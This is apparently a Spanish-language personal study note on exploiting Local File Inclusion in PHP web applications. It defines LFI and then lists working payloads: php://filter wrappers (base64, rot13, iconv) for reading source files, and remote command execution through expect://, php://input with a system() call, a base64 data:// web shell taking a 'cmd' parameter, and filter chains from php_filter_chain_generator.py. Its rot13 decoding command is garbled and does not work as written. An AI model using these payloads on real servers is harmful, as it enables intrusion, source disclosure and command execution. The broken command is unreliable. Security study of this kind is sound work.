 #LFI #OWASP #Explotacion 
#### Definición
>**Local File Inclusion** (**LFI**) es una vulnerabilidad de seguridad informática que se produce cuando una aplicación web **no valida adecuadamente** las entradas de usuario, permitiendo a un atacante **acceder a archivos locales** en el servidor web.


### Ver contenido
Para ver el contenido completo de un archivo .php sin que sea interpretado podemos usar un *wrapper* que nos lo concatene en base64 y nosotros desde nuestra maquina local poderlo ver.
`php://filter/convert.base64-encode/resource="nombre_recurso.php"`

Para decodearlo:
`echo -n "codigo_base66" | base64 -d; echo`

También podemos rotar los caracteres 13 posiciones y luego desrotarlo:
`php://filter/read=string.rot13/resource="nombre_recurso.php"`

Para desrotarlo:
Primero lo guardamos en un archivo con `nano`
Luego usamos el siguiente comando:
`cat "nombre_archivo" | tr '[c-za-bC-ZA-B]' '[p-za-o-P-ZA-O]'`
También podemos usar la web llamada rot13.

También lo podemos ver sin tener que interpretarlo usaremos:
`php://filter/convert.iconv.utf-8.utf-16/resource="nombre_recurso.php"`


### Ejecutar comandos
Para poder ejecutar comando en la maquina RCE:
Interceptaremos con burp en la maquina la petición, en el `GET` modificaremos justo después del `=` de esta petición.
`expect://whoami`

Para el siguiente habría que modificar la petición de `GET` a `POST` 
`php://input`
En la parte de abajo de la petición podemos pasarle datos en forma de código `php`:
`<?php  system("whoami"); ?>`

En el siguiente se le pueden pasar cadenas en base64:
Interceptaremos con burb en la maquina la petición, en el `GET` modificaremos justo después del `=` de esta petición.
`data://text/plain;base64,codigo_base64=`
Para que la gestión de comando sea mas cómoda podremos usar el siguiente código php y transformarlo a base64:
`<?php system($_GET['cmd']); ?>`
Pegas la nueva cadena con el código base64 nuevo:
`data://text/plain;base64,codigo_base64%2b&cmd=whoami`


También se pude hacer uso de cadena de filtros podemos usar la herramienta `php_filter_chain_generator.py` con la opción `--chain 'Codigo_php'`
Tendremos que copiar la cadena completa he introducirla después del `=` en la petición.
